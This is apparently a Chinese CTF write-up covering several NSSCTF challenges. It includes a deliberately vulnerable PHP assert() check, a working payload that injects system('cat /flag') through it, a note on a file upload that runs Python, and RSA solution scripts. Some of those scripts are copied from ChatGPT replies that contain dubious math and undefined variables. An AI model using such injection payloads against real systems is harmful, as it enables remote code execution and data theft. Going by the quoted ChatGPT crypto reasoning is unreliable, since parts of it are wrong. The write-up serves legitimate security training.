

# 真·签到
	- robots.txt泄漏用户名和密码，密码是base32+bas64, 用户名是这个：
		- ```python
		  mat = [
		      [],
		      [None, "a", "b", "c", "d", "e",],
		      [None, "f", "g", "h", "ij", "k"],
		      [None, "l", "m", "n", "o", "p"],
		      [None, "q", "r", "s", "t", "u"],
		      [None, "v", "w", "x", "y", "z"],
		  ]
		  print("".join([mat[1][3], mat[4][4], mat[2][1], mat[1][5], mat[4][2]]))
		  ```
	- 然后F12泄漏，来到最后的php弱类型
		- ```php
		  <?php
		  error_reporting(0);
		  highlight_file(__FILE__); 
		  include('flag.php');  
		  if (isset($_GET['nss'])){
		      if ($_GET['nss'] == 732339662){
		          assert("is_numeric($_GET[nss])==0") || die('oops!此路不通！！');
		          echo $FLAG;
		      } else{
		          echo "这里不是说了吗！！！必须是 732339662 (招新群群号！)";
		      }
		  }else{
		      echo "啊？这是什么新型比较？";
		      echo "<br/>";
		      echo "是不是题错了啊";
		  }
		  ```
	- 直接在assert处RCE即可
		- ```python
		  # ctfer
		  url = "http://node2.anna.nssctf.cn:28854/F111n4l.php"
		  
		  r = base_post(url, params = {
		      "nss": " 732339662+system('cat /flag')"
		  })
		  
		  print(r.text)
		  ```
- # 真的是文件上传吗？
	- 上传一个文件，发现目标会将文件当成python脚本执行
		- 
	- 那直接写python脚本让他运行就行了
- # Level_1
	- 问了ChatGPT
		- 这是一个有关密码学的CTF题目喵。这道题目涉及到了RSA加密和解密的知识喵。
		  
		  首先，我们可以看到给定了n、c1、c2、e1和e2的值。其中n是e1和e2的乘积，m是要加密的明文。
		  
		  根据RSA加密的原理，我们可以利用相应的私钥指数d将密文解密为明文。要求私钥指数d，我们需要求解e1和e2的多个模反元素，即对于给定的e1和e2，找到对应的d1和d2，满足(d1 \* e1) % ((e1-1)\*(e2-1)) == 1以及(d2 \* e2) % ((e1-1)\*(e2-1)) == 1。
		  
		  然后，根据RSA的解密算法，利用得到的私钥指数d1和d2，我们可以分别计算c1和c2的模幂运算，得到明文m。伪代码如下：
		  
		  ```python
		  from Crypto.Util.number import long_to_bytes
		  
		  def rsa_decrypt(c1, c2, e1, e2, n):
		      # Calculate modular inverses
		      d1 = pow(e1, -1, (e1-1)*(e2-1))
		      d2 = pow(e2, -1, (e1-1)*(e2-1))
		  
		      # Decrypt ciphertexts to get the plaintext
		      m1 = pow(c1, d1, n)
		      m2 = pow(c2, d2, n)
		  
		      # Check if m1 and m2 are equal
		      if m1 == m2:
		          return long_to_bytes(m1)
		      else:
		          return None
		  
		  flag = rsa_decrypt(c1, c2, e1, e2, n)
		  print(flag)
		  ```
		  
		  运行这段代码，应该能得到解密后的明文，也就是题目的flag。
		  
		  希望这个解决方案可以帮到你喵～ 如果还有其他问题，尽管问我喵！
	- 所以
		- ```python
		  #真签到题
		  from Crypto.Util.number import bytes_to_long, getPrime, long_to_bytes
		  
		  n = 22517647586235353449147432825948355885962082318127038138351524894369583539246623545565501496312996556897362735789505076324197072008392656511657262430676945685471397862981216472634785622155317188784494912316440866051402627470561626691472280850273482836308002341429493460677206562201947000047718275995355772707947408688836667011206588727438261189233517003341094758634490421007907582147392858070623641389171229435187248184443645883661560636995548332475573072064240073037558031928639832259001407585962782698021735648128101459118863015844905452823095147248865104102562991382119836061161756978764495337874807458182581421229
		  c1 = 1432393096266401187029059077791766305797845826173887492889260179348416733820890797101745501984437201566364579129066414005659742104885321270122634155922766503333859812540068278962999824043206496595825886026095484801291802992082454776271149083516187121160475839108002133113254134626407840182541809478892306748590016896975053434021666376203540725254480252049443975835307793528287818262102688334515632062552114342619781840154202525919769192765621085008206581226486157149883898548933475155236509073675387541466324512294079413938239828341890576923100769181401944289365386552139418728492565319685207500539721582552448971814
		  c2 = 13299679392897297864252207869444022461237574801991239380909482153705185317634241850084078027230394830079554676426505967970943836811048777462696506309466535820372917756458083553031417406403895116557560548183674144457502601887632495739472178857537011190162283185735114683172731936834993707871636782206418680404006299140864001776588991141011500807549645227520128216130966268810165946959810884593793452437010902774726405217517557763322690215690606067996057037379898630878638483268362526985225092000670251641184960698506349245915816808028210142606700394584541282682338561482561343076218115042099753144875658666459825545602
		  e1 = 155861690390761931560700906834977917646203451142415617638229284868013723431003139974975998354830978765979365632120896717380895021936387027045347260400512396388028781862427862974453223157509702913026222541667006325100878113871620322023188372501930117363623076837619478555007555970810681502521309925774889678793
		  e2 = 144471983652821947847253052623701746810204736865723159569786739658583884214397562204788127484897909964898113250509653721265240138487697822089282456150238116811225975640330930854549232972314642221382625614304415750165289831040623741828600283778523993251940904896081111235859249916040849697146542311990869696453
		  
		  def rsa_decrypt(c1, c2, e1, e2, n):
		      # Calculate modular inverses
		      d1 = pow(e1, -1, (e1-1)*(e2-1))
		      d2 = pow(e2, -1, (e1-1)*(e2-1))
		  
		      # Decrypt ciphertexts to get the plaintext
		      m1 = pow(c1, d1, n)
		      m2 = pow(c2, d2, n)
		  
		      # Check if m1 and m2 are equal
		      if m1 == m2:
		          return long_to_bytes(m1)
		      else:
		          return None
		  
		  flag = rsa_decrypt(c1, c2, e1, e2, n)
		  print(flag)
		  ```
- # Level_2
	- 问了ChatGPT
		- ```text
		  喵，这道题目涉及到RSA加密和解密，需要用到RSA算法相关的知识和工具。
		  
		  首先，我们已经知道了一半的私钥p和密文c。根据RSA加密算法的性质，我们需要找到另一半私钥q。
		  
		  在代码中，q被生成为一个1024位的随机素数，如果我们能够猜测到这个素数的话，就可以得到完整的私钥。
		  
		  现在，我们需要估算e值。大多数情况下，RSA加密中的e值都会选择为65537。当然，这并不是唯一的选择，但是它具有较高的安全性和效率。
		  
		  知道了e值，我们可以使用RSA算法的逆运算（模逆）来计算出对应的私钥d值。
		  
		  等我们获得了完整的私钥(p, q, d)，就可以使用RSA解密算法来还原明文m了。最后，我们对解密后的明文进行转换，得到flag。
		  
		  如果你希望进一步了解RSA加密和解密的原理和实现，我可以为你提供一些代码示例喵～
		  ```
		- 当然可以喵！以下是一段Python代码示例，用于解决上面的RSA加密解密题目：
		  
		  ```python
		  from Crypto.Util.number import bytes_to_long, getPrime
		  from secret import getflag
		  
		  # 已知的部分参数
		  p = 3316417629633320  # 假设已经猜测到了 p 的值
		  q = 145721736470529261146573065574028992352505611489859183763269215489708531333597694809923949026781460438320576519639268582565188719134157402292313959218961804213310847081787824780075530751842057663327444602428455144829447776271394663729996984613471623158126083062443634493708467568220146024273763894704649472957
		  e = 65537
		  n = p * q
		  m = bytes_to_long(getflag().encode())
		  
		  # 计算解密用的d值
		  phi = (p - 1) * (q - 1)
		  d = pow(e, -1, phi)
		  
		  # 解密密文得到明文
		  decrypted_m = pow(c, d, n)
		  
		  # 将明文转换为字符串
		  flag = bytearray.fromhex(hex(decrypted_m)[2:]).decode()
		  
		  # 输出结果
		  print("Flag: ", flag)
		  ```
		  
		  请注意，这只是一个简单的示例代码，其中的 p 值是未知的部分需要自行猜测或计算得出。实际解题中，需根据题目的提示或其他信息来得到正确值。
		  
		  希望这个示例代码能帮助到你喵！如有其他问题，请随时提问喵～
	- 然后按着暴力即可
		- ```python
		  from Crypto.Util.number import bytes_to_long, getPrime, long_to_bytes
		  
		  q = 145721736470529261146573065574028992352505611489859183763269215489708531333597694809923949026781460438320576519639268582565188719134157402292313959218961804213310847081787824780075530751842057663327444602428455144829447776271394663729996984613471623158126083062443634493708467568220146024273763894704649472957
		  c = 17441814714407189483380175736850663249578989775568187792928771544069162420510939242665830363276698262009780462912108642025299275146709817979705069095332726251759039923303627023610865046363171692163473939115438686877494878334016463787558794121885354719336139401336137097548305393030069499625065664884238710759260231321106291200849044147840392021931720902340003746946851806025722944795391356835342258387797980787437188976704677008092850181043891802072500430200735973581081228711070923822341261809453662427341958883142789220800541626034573952425948295446202775198692920613709157662831071515700549093766182579873408465779
		  e = 65537
		  
		  with open("Level_2/ps.txt") as f:
		      for p in f.read().split():
		          p = int(p)
		          n = p * q
		  
		          # 计算解密用的d值
		          phi = (p - 1) * (q - 1)
		          d = pow(e, -1, phi)
		  
		          # 解密密文得到明文
		          decrypted_m = pow(c, d, n)
		  
		          # 将明文转换为字符串
		          flag = long_to_bytes(decrypted_m)
		          if flag.startswith(b"NSS"):
		              # 输出结果
		              print("Flag: ", flag)
		  ```
- # Level_3
	- 按着[网上的代码](https://blog.csdn.net/Sciurdae/article/details/134904758)写脚本就行
		- ```python
		  from Crypto.Util.number import bytes_to_long, getPrime, long_to_bytes
		  from gmpy2 import gmpy2, invert
		  from tqdm import tqdm
		  from pwn import *
		  
		  def rsa_decrypt(c1, c2, e1, e2, n):
		      gcd, s, t = gmpy2.gcdext(e1, e2)
		      if s < 0:
		          s = -s
		          c1 = invert(c1, n)
		      elif t < 0:
		          t = -t
		          c2 = invert(c2, n)
		      m = pow(c1, s, n) * pow(c2, t, n) % n
		      return long_to_bytes(m)
		  
		  p = remote("node1.anna.nssctf.cn", 28118)
		  for _ in tqdm(range(666)):
		      n = p.recvline_startswith(b"n=").removeprefix(b"n=").decode()
		      n = int(n)
		      e1 = p.recvline_startswith(b"e1=").removeprefix(b"e1=").decode()
		      e1 = int(e1)
		      e2 = p.recvline_startswith(b"e2=").removeprefix(b"e2=").decode()
		      e2 = int(e2)
		      c1 = p.recvline_startswith(b"c1=").removeprefix(b"c1=").decode()
		      c1 = int(c1)
		      c2 = p.recvline_startswith(b"c2=").removeprefix(b"c2=").decode()
		      c2 = int(c2)
		      flag = rsa_decrypt(c1, c2, e1, e2, n)
		      p.send(flag)
		  p.interactive()
		  
		  ```